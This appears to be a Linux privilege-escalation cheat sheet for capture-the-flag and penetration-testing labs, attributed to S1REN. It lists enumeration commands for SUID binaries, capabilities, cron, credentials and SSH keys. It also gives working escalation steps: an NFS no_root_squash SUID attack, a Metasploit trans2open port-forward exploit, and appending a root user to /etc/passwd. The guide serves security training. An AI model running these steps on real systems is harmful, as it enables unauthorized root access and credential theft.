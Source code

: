 What's my path to root?  

**g0tmilk's Guide to Linux Privilege Escalation as well:**  
[https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/  
](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)  
**I just got a low-priv shell !**  
What would S1REN do  _right now_?  
**python**  -c 'import pty; pty.spawn("/bin/bash")'  
OR  
**python3**  -c 'import pty; pty.spawn("/bin/bash")'  
export  **PATH**=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp  
export  **TERM**=xterm-256color  
alias  **ll**='ls -lsaht --color=auto'  
**Ctrl + Z**  [Background Process]  
stty raw -echo  **;**  fg  **;**  reset  
stty columns 200 rows 200

  
**S1REN would say:**  
_Various Capabilities?_  
which  **gcc**  
which  **cc**  
which  **python**  
which  **perl**  
which  **wget**  
which  **curl**  
which  **fetch**  
which  **nc**  
which  **ncat**  
which  **nc.traditional**  
which  **socat**  
  
**Compilation? (**Very Back Burner**)**  
**file**  /**bin**/**bash**  
**uname -a**  
cat /**etc**/***-release**  
cat /**etc**/**issue**  

  
**What Arch?**  
file /bin/bash  
  
**Kernel?**  
uname -a  

**Issue/Release?**  
cat /etc/issue  
cat /etc/***-**release  

**Are we a  _real user_?**  
sudo -l  
ls -lsaht /etc/sudoers  

**Are any users a member of exotic groups?**  
groups <user>

  
**Check out your shell's environment variables...**  
env  
[https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/)  

**_Users_?**  
cd /home/  
ls -lsaht

**_Web Configs_  containing credentials?**  
cd /**var**/**www**/**html**/  
ls -lsaht  
  
**_SUID_  Binaries?**  
find  **/**  -perm  **-u=s**  -type f 2>/**dev**/**null**  

**_GUID_  Binaries?**  
find  **/**  -perm  **-g=s**  -type f 2>/**dev**/**null**  
  
**SUID/GUID/SUDO  _Escalation_:**  
[https://gtfobins.github.io/  
](https://gtfobins.github.io/)

**Binary/Languages with "_Effective Permitted_" or "_Empty Capability_" (**ep**):**  
[https://www.insecure.ws/linux/getcap_setcap.html#getcap-setcap-and-file-capabilities  
](https://www.insecure.ws/linux/getcap_setcap.html#getcap-setcap-and-file-capabilities)Get Granted/Implicit (Required by a Real User) Capabilities of all files recursively throughout the system and pipe all error messages to /dev/null.  
getcap -r / 2>/dev/null

  
**We need to start monitoring the system if possible while performing our enumeration...**  
**In other words:**  
"S1REN...  _Is privilege escalation going to come from some I/O file operations being done by some script on the system?_"  
[https://github.com/DominicBreuker/pspy/blob/master/README.md  
](https://github.com/DominicBreuker/pspy/blob/master/README.md)cd /var/tmp/  
File Transfer  **-->**  pspy32  
File Transfer  **-->**  pspy64  
chmod 755 pspy32 pspy64  
./pspy<32/64>  
  
**What does the local network look like?**  
netstat -antup  
netstat -tunlp  
  
**Is anything vulnerable running as root?**  
ps aux |grep -i 'root' --color=auto  
  
**MYSQL Credentials? Root Unauthorized Access?**  
mysql -uroot -p  
Enter Password:  
root : root  
root : toor  
root :

**S1REN would take a quick look at etc to see if any user-level people did special things:**  
cd /**etc**/  
ls -lsaht  
_Anything other than root here?_  
• Any config files left behind?  
→ ls -lsaht |grep -i ‘.conf’ --color=auto

**• If we have root priv information disclosure - are there any .secret in /etc/ files?**  
→ ls -lsaht |grep -i ‘.secret’ --color=aut  

**SSH Keys I can use perhaps for even further compromise?**  
ls -lsaR /**home**/  

**Quick look in:**  
ls -lsaht /**var**/**lib**/  
ls -lsaht /**var**/**db**/  
  
**Quick look in:**  
ls -lsaht /**opt**/  
ls -lsaht /**tmp**/  
ls -lsaht /**var**/**tmp**/  
ls -lsaht /**dev**/**shm**/  

**File Transfer Capability? What can I use to transfer files?**  
which wget  
which curl  
which nc  
which fetch (BSD)  
ls -lsaht /bin/ |grep -i 'ftp' --color=auto

**NFS? Can we exploit weak NFS Permissions?**  
cat /**etc**/**exports**  
no_root_squash?  
[https://recipeforroot.com/**attacking-nfs-shares**/  
](https://recipeforroot.com/attacking-nfs-shares/)  
**[On Attacking Machine]**  
mkdir -p /**mnt**/**nfs**/  
mount  **-t**  nfs  **-o**  **vers**=<version 1,2,3>  **$ip:**<NFS Share> /**mnt**/**nfs**/  **-nolock**  
gcc suid.c  **-o**  suid  
cp suid /**mnt**/**nfs**/  
chmod u+s /**mnt**/**nfs**/**suid**  
su <user id matching target machine's user-level privilege.>  
  
**[On Target Machine]**  
user@host$ ./suid  
**#**

**_Where can I live on this machine?_  Where can I read, write and execute files?**  
/**var**/**tmp**/  
/**tmp**/  
/**dev**/**shm**/

**Any exotic file system mounts/extended attributes?**  
cat /**etc**/**fstab**  
  
**Forwarding out a weak service for root priv (with meterpreter!):**  
Do we need to get a meterpreter shell and forward out some ports that might be running off of the Loopback Adaptor (127.0.0.1) and forward them to any (0.0.0.0)? If I see something like Samba SMBD out of date on 127.0.0.1 - we should look to forward out the port and then run trans2open on our own machine at the forwarded port.  
[https://www.offensive-security.com/metasploit-unleashed/portfwd/](https://www.offensive-security.com/metasploit-unleashed/portfwd/)  
  
**Forwarding out netbios-ssn EXAMPLE:**  
**meterpreter>**  portfwd add –l 139 –p 139 –r [target remote host]  
**meterpreter>**  background  
use exploit/linux/samba/trans2open  
set RHOSTS 0.0.0.0  
set RPORT 139  
run  
  
**Can we write as a low-privileged user to /etc/passwd?**  
openssl passwd -1  
i<3hacking  
$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.  
echo 'siren:$1$/UTMXpPC$Wrv6PM4eRHhB1/m1P.t9l.:0:0:siren:/home/siren:/bin/bash' >> /etc/passwd  
su siren  
id  
  
**Cron.**  
crontab –u root –l  
  
**Look for unusual system-wide cron jobs:**  
cat /etc/**crontab**  
ls /etc/**cron.***  

**Bob is a user on this machine. What is every single file he has ever created?**  
find / -user  **miguel**  2>/dev/null  

**Any mail?**  **mbox in User $HOME directory?**  
cd /**var**/**mail**/  
ls -lsaht  
  
**Linpease**:  
[https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS  
](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)  
**Traitor:**  
[https://github.com](https://github.com/liamg/traitor)[/](https://github.com/liamg/traitor)[liamg/traitor  
](https://github.com/liamg/traitor)  
**GTFOBins:**  
[https://gtfobins.github.io/](https://gtfobins.github.io/)  
  
**PSpy32/Pspy64:**  
[https://github.com/DominicBreuker/pspy/blob/master/README.md](https://github.com/DominicBreuker/pspy/blob/master/README.md)